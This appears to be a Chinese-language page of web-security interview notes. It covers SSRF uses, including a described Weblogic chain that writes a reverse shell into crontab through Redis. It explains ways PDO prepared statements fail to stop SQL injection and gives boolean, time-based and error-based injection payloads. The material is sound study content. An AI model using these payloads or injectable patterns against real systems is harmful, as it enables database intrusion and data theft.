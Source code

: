 （1）SSRF服务端请求伪造

> 一、对内网扫描，获取 banner
> 
> 二、攻击运行在内网的应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
> 
> 三、利用协议读取本地文件
> 
> 四、 云计算环境AWS Google Cloud 环境可以调用内网操作 ECS 的 API

（2）如webligic SSRF漏洞

通过SSRF的gopher协议操作内网的redis，利用redis将反弹shell写入crontab定时任务，url编码，将\\r字符串替换成%0d%0a

## 预编译能否100%防sql注入

不能。

一、

$pdo->query('SET NAMES gbk'); $var = "\\xbf\\x27 OR 1=1 /\*"; $query = 'SELECT \* FROM test WHERE name = ? LIMIT 1'; $stmt = $pdo->prepare($query); $stmt->execute(array($var));

类似于宽字节注入

二、

$dbh = new PDO("txf"); $name = $\_GET\['name'\]; $stmt = $dbh->prepare('SELECT \* FROM ' . $name . ' where username = :username'); $stmt->execute( array(':username' => $\_REQUEST\['username'\]) );

参数name是一串数组，PDO不会生效

三、

$stmt = $dbh->prepare('SELECT \* FROM foo ORDER BY :userSuppliedData');

PDO对DDL不生效

## SQL注入构造payload

答：

一、布尔型盲注

(1)mysql :

‘and (length(database()))>10 –+

(2)oracle:

‘ and 1=(select decode(user,’SCOTT’,1,0) from dual) –

二、时间型盲注

and if(ascii(substr((select database()),1,1))>115,1,sleep(5))

三、利用报错回显

(1) extractvalue

and extractvalue(1,concat(0x7e,(select database())))
